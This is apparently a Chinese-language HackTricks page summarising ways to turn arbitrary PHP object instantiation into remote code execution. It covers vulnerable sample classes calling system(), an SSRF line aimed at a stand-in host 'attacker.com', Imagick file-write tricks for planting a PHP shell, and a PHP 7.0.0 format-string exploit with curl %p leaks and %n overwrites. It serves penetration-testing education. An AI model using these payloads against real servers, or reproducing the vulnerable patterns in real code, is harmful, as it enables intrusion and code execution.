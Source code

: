 # PHP - RCE 利用对象创建: new $_GET["a"]($_GET["b"])

{{#include ../../../banners/hacktricks-training.md}}

这基本上是对 [https://swarm.ptsecurity.com/exploiting-arbitrary-object-instantiations/](https://swarm.ptsecurity.com/exploiting-arbitrary-object-instantiations/) 的摘要

## 介绍

创建任意对象，例如 `new $_GET["a"]($_GET["a"])`，可能导致 Remote Code Execution (RCE)，详见 [**writeup**](https://swarm.ptsecurity.com/exploiting-arbitrary-object-instantiations/)。本文档重点介绍实现 RCE 的各种策略。

## RCE 通过自定义类或自动加载

语法 `new $a($b)` 用于实例化对象，其中 **`$a`** 表示类名，**`$b`** 是传递给构造函数的第一个参数。这些变量可以来自用户输入，如 GET/POST，它们可能是字符串或数组，或来自 JSON，在那里它们可能呈现为其他类型。

请考虑下面的代码片段：
```php
class App {
function __construct ($cmd) {
system($cmd);
}
}

class App2 {
function App2 ($cmd) {
system($cmd);
}
}

$a = $_GET['a'];
$b = $_GET['b'];

new $a($b);
```
在这个例子中，将 `$a` 设置为 `App` 或 `App2`，并将 `$b` 设置为系统命令（例如 `uname -a`），会导致该命令被执行。

**Autoloading functions** 可以被利用，如果没有这样的类可直接访问。这些函数会在需要时自动从文件中加载类，并通过 `spl_autoload_register` 或 `__autoload` 定义：
```php
spl_autoload_register(function ($class_name) {
include './../classes/' . $class_name . '.php';
});

function __autoload($class_name) {
include $class_name . '.php';
};

spl_autoload_register();
```
自动加载 (autoloading) 的行为因 PHP 版本而异，带来不同的 RCE 可能性。

## 通过内置类实现 RCE

如果没有自定义类或自动加载器，**内置 PHP 类** 可能足以实现 RCE。根据 PHP 版本和扩展，这些类的数量大约在 100 到 200 之间。可以使用 `get_declared_classes()` 列出它们。

可以通过反射 API 确定感兴趣的构造函数，如下面示例和链接所示 [https://3v4l.org/2JEGF](https://3v4l.org/2JEGF)。

**通过特定方法的 RCE 包括：**

### **SSRF + Phar Deserialization**

`SplFileObject` 类通过其构造函数实现 SSRF，允许连接到任意 URL：
```php
new SplFileObject('http://attacker.com/');
```
SSRF 可以导致在 PHP 8.0 之前的版本中通过 Phar 协议发生反序列化攻击。

### **利用 PDOs**

PDO 类的构造函数允许通过 DSN 字符串连接到数据库，可能导致创建文件或其他交互：
```php
new PDO("sqlite:/tmp/test.txt")
```
### **SoapClient/SimpleXMLElement XXE**

在 libxml2 的特定版本条件下，PHP（最高至 5.3.22 和 5.4.12）通过 `SoapClient` 和 `SimpleXMLElement` 构造函数易受 XXE 攻击。

## 通过 Imagick Extension 实现 RCE

在对一个项目依赖项的分析中，发现可以通过实例化新对象利用 Imagick 来进行 command execution。这为利用漏洞提供了机会。

### VID 解析器

发现 VID 解析器具有将内容写入文件系统任意指定路径的能力。这可能导致在可被 Web 访问的目录中放置 PHP shell，从而实现 Remote Code Execution (RCE)。

#### VID Parser + File Upload

需要注意的是，PHP 会将上传的文件临时存储在 `/tmp/phpXXXXXX`。Imagick 中的 VID 解析器，利用 **msl** 协议，可以在文件路径中处理通配符，从而将临时文件转移到选定位置。该方法为在文件系统中实现任意文件写入提供了另一种途径。

### PHP Crash + Brute Force

在 [**original writeup**](https://swarm.ptsecurity.com/exploiting-arbitrary-object-instantiations/) 中描述的一种方法，涉及上传在删除之前触发服务器崩溃的文件。通过暴力破解临时文件名，Imagick 就有可能执行任意 PHP 代码。然而，该技术仅在过时的 ImageMagick 版本中被发现有效。

## Format-string in class-name resolution (PHP 7.0.0 Bug #71105)

当用户输入控制类名（例如，`new $_GET['model']()`）时，PHP 7.0.0 在进行 `Throwable` 重构期间引入了一个短暂的错误，导致引擎在解析类名时错误地将其视为 printf 格式字符串。这使得在 PHP 内实现经典的 printf 风格原语成为可能：leaks with `%p`，通过宽度说明符控制写入计数，以及使用 `%n` 对进程内指针（例如 ELF 构建上的 GOT 条目）进行任意写入。

最小复现的易受攻击模式：
```php
<?php
$model = $_GET['model'];
$object = new $model();
```
利用概述（来自参考）：
- Leak addresses via `%p` in the class name to find a writable target:
```bash
curl "http://host/index.php?model=%p-%p-%p"
# Fatal error includes resolved string with leaked pointers
```
- 使用位置参数和宽度说明符来设置精确的字节计数，随后使用 `%n` 将该值写入栈上可到达的地址，目标为 GOT 插槽（例如 `free`），以部分覆盖为 `system`。
- 通过传递包含 shell pipe 的类名触发被劫持的函数，从而调用 `system("id")`。

注意：
- 仅适用于 PHP 7.0.0（Bug [#71105](https://bugs.php.net/bug.php?id=71105)）；在随后的版本中已修复。如果存在任意类实例化，严重性：critical。
- 典型的 payload 会串联多个 `%p` 来遍历栈，然后使用 `%.<width>d%<pos>$n` 来实现部分覆盖。

## References

- [https://swarm.ptsecurity.com/exploiting-arbitrary-object-instantiations/](https://swarm.ptsecurity.com/exploiting-arbitrary-object-instantiations/)
- [The Art of PHP: CTF‑born exploits and techniques](https://blog.orange.tw/posts/2025-08-the-art-of-php-ch/)

{{#include ../../../banners/hacktricks-training.md}}
